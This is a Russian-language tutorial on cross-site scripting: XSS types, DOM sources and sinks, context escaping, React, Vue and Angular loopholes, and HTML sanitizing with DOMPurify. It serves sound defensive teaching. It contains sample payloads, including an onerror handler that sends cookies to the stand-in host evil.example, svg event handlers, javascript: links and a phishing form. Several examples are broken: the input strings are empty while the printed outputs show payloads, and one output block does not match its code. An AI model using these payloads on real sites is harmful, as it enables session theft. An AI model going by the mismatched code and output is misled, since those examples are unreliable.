

## О чём урок

XSS (cross-site scripting), главная угроза фронтенда: виды (хранимый, отражённый, DOM-based), источники и опасные приёмники в DOM, почему защищает экранирование по контексту, что фреймворки делают сами и где у каждого лазейка, как очищать HTML от пользователей (DOMPurify и встроенный `setHTML`). Строгая CSP и Trusted Types как второй слой защиты разобраны в уроке `sec-csp`. Примеры выполняются в jsdom и Node.js.

## Что такое XSS

XSS это выполнение чужого скрипта на вашей странице, то есть **с правами вашего источника**. Такой скрипт видит DOM и всё, что видит пользователь, отправляет запросы с его cookie, читает `localStorage`, подменяет форму входа, ставит обработчики на ввод. Отправить cookie с `HttpOnly` он не может, но это не спасает: действовать от имени пользователя он может и без них.



| Вид | Где данные становятся кодом | Кто должен защищать |
|---|---|---|
| Хранимый (stored) | При выводе сохранённых данных: комментарии, имена, описания товаров | Код вывода на сервере и на клиенте |
| Отражённый (reflected) | Сервер вставляет параметр запроса в ответ («Результаты по запросу: ...») | Шаблоны на сервере, SSR |
| DOM-based | Клиентский скрипт берёт данные из URL, `postMessage`, хранилища и пишет в опасный приёмник | Только фронтенд: сервер этих данных может вообще не видеть |

## Источники и приёмники

DOM XSS ищут как путь от **источника** (source), который контролирует атакующий, к **приёмнику** (sink), который превращает строку в код или разметку.

| Источники | Опасные приёмники |
|---|---|
| `location.hash`, `location.search`, `document.referrer` | `innerHTML`, `outerHTML`, `insertAdjacentHTML`, `document.write` |
| `postMessage`, `window.name` | `eval`, `new Function`, `setTimeout` и `setInterval` со строкой |
| `localStorage`, ответы API с пользовательскими данными | `href`, `src`, `action`, `formaction` со схемой `javascript:` |
| | `<script>` с изменяемым `src` или текстом, `srcdoc` у iframe |

```js dom
// The source: the part of the address after #, controlled by whoever sent the link.
const link = new URL('https://app.example.com/search#')
const query = decodeURIComponent(link.hash.slice(1))

const unsafe = document.createElement('p')
unsafe.innerHTML = 'Results for: ' + query // a sink: the string is parsed as HTML

const safe = document.createElement('p')
safe.textContent = 'Results for: ' + query // text: no parsing

const img = unsafe.querySelector('img')
console.log('innerHTML  : elements', unsafe.children.length, '| handler:', img.getAttribute('onerror').slice(0, 24) + '…')
console.log('textContent: elements', safe.children.length, '| text:', safe.textContent.slice(0, 32) + '…')

// <script> inserted through innerHTML does not run, but that does not help: handlers do.
const s = document.createElement('div')
s.innerHTML = '<script>steal()</script><svg onload="steal()"></svg>'
console.log('inserted:', [...s.children].map((el) => `<${el.localName}>`).join(' '))
```

```output
innerHTML  : elements 1 | handler: fetch(`//evil.example/?c…
textContent: elements 0 | text: Results for:  <svg>
```

- Строка из ссылки, вставленная через `innerHTML`, стала элементом `` с обработчиком: в браузере `onerror` сработает сразу, потому что картинки `x` нет, и cookie уйдут на чужой сервер.
- `textContent` вставляет **текст**: те же символы показаны как есть, разметки нет.
- `<script>`, вставленный через `innerHTML`, по стандарту не выполняется, но это не защита: обработчики событий (`onerror`, `onload`, `onbegin` в SVG) выполняются.

## Экранирование по контексту

Главное правило: данные выводятся как **данные**, а не как разметка или код. Как именно, зависит от места вывода:

| Контекст | Как вывести безопасно |
|---|---|
| Текст внутри элемента | `textContent` или экранирование `<`, `>`, `&` |
| Значение атрибута | `setAttribute` или экранирование кавычек; атрибут всегда в кавычках |
| URL в `href`, `src` | Разобрать через `new URL` и разрешить только `https:`, `http:`, `mailto:` |
| Внутри `<script>` (данные для гидратации) | JSON с экранированным `<` (урок `render-hydration`), а лучше атрибут `data-*` или отдельный запрос |
| Внутри обработчика, `eval`, CSS | Не вставлять данные вообще |

Шаблонизаторы и фреймворки делают первые два пункта сами. Поэтому почти весь XSS в современных приложениях появляется в местах, где разработчик обошёл фреймворк.

## Фреймворки и их лазейки

```tsx run
import { renderToString } from 'react-dom/server'

const comment = ''
const website = 'javascript:steal()'

function Comment() {
  return (
    <>
      <p>{comment}</p>
      <a href={website}>site</a>
      <div dangerouslySetInnerHTML={{ __html: comment }} />
    </>
  )
}
const html = renderToString(<Comment />)
for (const part of html.split(/(?=<a |<div)/)) console.log(part.length > 90 ? part.slice(0, 90) + '…' : part)
```

```output
<p>&lt;img src=x onerror=&quot;steal()&quot;&gt;</p>
<a href="javascript:throw new Error(&#x27;React has blocked a javascript: URL as a securit…
<div></div>
```

| | Текст `{}` и `{{ }}` | URL `javascript:` | Сырой HTML |
|---|---|---|---|
| React 19 | Экранирует | Блокирует: подменяет на код, который бросает ошибку | `dangerouslySetInnerHTML` вставляет как есть |
| Vue 3 | Экранирует | **Не проверяет**, ссылка выполнится по клику | `v-html` вставляет как есть |
| Angular | Экранирует | Добавляет префикс `unsafe:` | `[innerHTML]` очищает санитайзером; `bypassSecurityTrustHtml` отключает защиту |

Общие лазейки во всех фреймворках:

- прямой доступ к DOM: `ref.current.innerHTML`, `elementRef.nativeElement.innerHTML`, сторонние библиотеки, которые пишут в DOM сами (редакторы, графики, подсветка кода);
- шаблон, собранный из пользовательской строки: компиляция шаблона Vue или Angular в браузере, серверные шаблоны с данными внутри шаблона клиента;
- атрибуты со ссылками: `href` из профиля пользователя в Vue, `src` у `iframe`;
- данные состояния, встроенные в HTML при SSR без экранирования `</script>`.

Примеры для Vue и Angular с выводом разобраны в уроках `vue-best-practices` и `ng-architecture`.

## Когда HTML нужен: санитизация

Статьи из CMS, комментарии с форматированием, Markdown от пользователей требуют вывести HTML. Тогда его **очищают санитайзером**: разбирают как HTML и оставляют только разрешённые теги и атрибуты. Регулярные выражения для этого не годятся: HTML разбирается иначе, чем кажется, и обходов фильтров на регулярках тысячи.

```js dom
import DOMPurify from 'dompurify'

// HTML from users: a comment in a rich-text editor, an article from a CMS.
const inputs = [
  '<b>Great</b> <i>post</i>, see <a href="https://example.org">this</a>',
  '<script>steal()</script>',
  '<a href="javascript:steal()">click me</a>',
  '<svg><animate onbegin="steal()" attributeName="x"/></svg>',
  '<form action="https://evil.example"><input name="password"></form>',
]
for (const html of inputs) console.log(DOMPurify.sanitize(html))

// Stricter: only the tags and attributes a comment really needs.
const strict = { ALLOWED_TAGS: ['b', 'i', 'a', 'p'], ALLOWED_ATTR: ['href'] }
console.log(DOMPurify.sanitize('<h1 style="font-size:90px">BUY NOW</h1><b>ok</b>', strict))
```

```output
<b>Great</b> <i>post</i>, see <a href="https://example.org">this</a>

<a>click me</a>
<svg></svg>
<form action="https://evil.example"><input name="password"></form>
BUY NOW<b>ok</b>
```

- Форматирование осталось, обработчики, `<script>` и ссылка `javascript:` удалены.
- По умолчанию DOMPurify оставил `<form>` с полем: это не выполнение кода, но готовая фишинговая форма «войдите заново» внутри комментария. Для пользовательского контента задают свой короткий список разрешённых тегов и атрибутов.
- Очищать нужно **непосредственно перед вставкой** и тем же парсером, что и браузер: строка, очищенная на сервере, а потом изменённая (склеенная, переведённая Markdown-парсером), снова опасна.
- Встроенный санитайзер: `element.setHTML(html)` (Sanitizer API) всегда удаляет опасные элементы и атрибуты, даже если конфигурация их разрешает. Есть в Chrome 146 и Firefox 148, в Safari пока нет, поэтому нужен запасной вариант через DOMPurify. `setHTMLUnsafe()` ничего не очищает, несмотря на похожее имя.

## Главное

- XSS это чужой код с правами вашего источника: он действует от имени пользователя, даже не читая `HttpOnly`-cookie.
- Хранимый, отражённый и DOM-based; последний виден только на клиенте: путь от источника (`location`, `postMessage`, хранилище) к приёмнику (`innerHTML`, `eval`, `javascript:` в URL).
- Защита: выводить данные как данные с учётом контекста; `textContent` вместо `innerHTML`, проверка схемы URL.
- React и Vue экранируют текст; React 19 блокирует `javascript:`, Vue нет; `dangerouslySetInnerHTML`, `v-html`, `bypassSecurityTrust*` и прямой DOM отключают защиту.
- HTML от пользователей очищают санитайзером (DOMPurify, `setHTML`) со своим списком тегов, прямо перед вставкой; регулярные выражения не подходят.
